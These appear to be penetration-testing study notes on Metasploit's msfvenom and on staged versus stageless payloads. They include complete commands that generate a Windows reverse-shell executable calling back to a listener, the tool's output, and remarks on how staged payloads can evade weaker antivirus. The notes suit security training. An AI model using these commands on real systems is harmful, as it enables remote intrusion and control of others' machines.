 ## Msfvenom
* Part of the Metasploit framework.
* Used to generate code for primarily reverse and bind shells.
* Can be used to generate payloads in various formats.
  * .exe, .aspx, .war, .py.
```
msfvenom -p <PAYLOAD> <OPTIONS>
```
* Generate Windows x64 Reverse Shell in an exe format.
```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```
* `-f <format>` specifies the output format.
* `-o <file>` specifies output location and filename for the generated payload.
* `LHOST=<IP>` specifies IP to connect back to.
* `LPORT=<port>`specifies port on the local machine to connect back to.
  * This can be anything between 0 and 65535 that is not already in use.
  * Ports below 1024 are restricted and require a listener running with `root` privileges.
```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=10.11.12.223 LPORT=443
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```

## Staged vs Stageless Payloads
### Staged
* Payloads are sent in two parts.
* First part is called the *stager*.
  * Piece of code executed directly on the server itself.
    * Connects to waiting listener and uses the connection to load the real payload.
      * Real payload is executed directly.
      * Prevents payload from touching the disk where it could be caught by traditional anti-virus solutions.
* Payload is split into two parts.
  * Small initial stager.
  * Bulkier reverse shell code that is downloaded when stager is activated.
* Requires a special listener.
  * Usually Metasploit multi/handler.
* Harder to use than stageless.
* Initial stager is a lot shorter.
* Is sometimes missed by less-effective antivirus software.
* Modern day antivirus solutions will make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager.
  * Makes staged payloads less effective than they would once have been in this area.

### Stageless 
* More common than staged.
* Entirely self-contained.
  * One piece of code that sends a shell back immediately to the waiting listener when executed.
* Tend to be easier to use and catch than staged.
* Bulkier than staged.
* Easier for an antivirus or intrusion detection program to discover and remove.
